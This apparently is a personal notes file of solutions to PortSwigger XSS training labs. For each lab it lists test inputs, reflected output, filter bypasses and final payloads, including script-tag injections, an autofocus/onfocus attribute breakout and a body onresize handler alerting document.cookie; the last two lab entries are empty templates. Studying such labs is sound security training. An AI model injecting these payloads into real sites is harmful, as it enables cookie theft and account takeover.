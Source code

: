 # Lab: 0[Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

# ========== level 0 ==========

**PAYLOAD:**

```html
<script>
	alert(1)
</script>
```

# Lab: 1[Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

# ========== level 1 ==========

**stored cross-site scripting**

_TEST:_

```html
<script>
	alert(1)
</script>
```

_REFLECT:_

```html
<input type="text" name="email" value="<script>alert(1)</script>" />
```

_SOLUTION:_ break out of form

_PAYLOAD:_

```html
">
<script>
	alert(1)
</script>
<"
```

# Lab: 3[Stored XSS into anchor href attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

# ========== level 2 ==========

_TEST:_

```html
<script>
	alert(document.URL)
</script>
```

_REFLECT:_

```html
<input type="text" name="email" value="<script&gt;alert(1)</script&gt;" />
```

_FILTER to bypass:_

```html
">" (is sterilized into "&gt;")
```

_SOLUTION:_

not using JS - instead using html5 tags handles:

```html
"autofocus onfocus="alert(1) "autofocus onfocus='alert(1)'
```

_PAYLOAD:_

```htm
"autofocus onfocus="alert(1)
```

# Lab: 4[Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

# ========== level 3 ==========

_TEST:_

```htm
<img src="1" onerror="print()" />
```

_REFLECT:_

```htm
"Tag is not allowed"
```

_FILTER to bypass:_

```
tags <body>
eventHandler onresize
```

_SOLUTION:_
<§§>
_PAYLOAD:_

```htm
<body onresize="alert(document.cookie)%3E"></body>
```

# Lab: 5[DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

# ========== level 3 ==========

_TEST:_

```htm

```

_REFLECT:_

```htm

```

_FILTER to bypass:_

```

```

_SOLUTION:_

_PAYLOAD:_

```htm

```

# Lab: 6[Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

# ========== level 3 ==========

_TEST:_

```htm

```

_REFLECT:_

```htm

```

_FILTER to bypass:_

```

```

_SOLUTION:_

_PAYLOAD:_

```htm

```
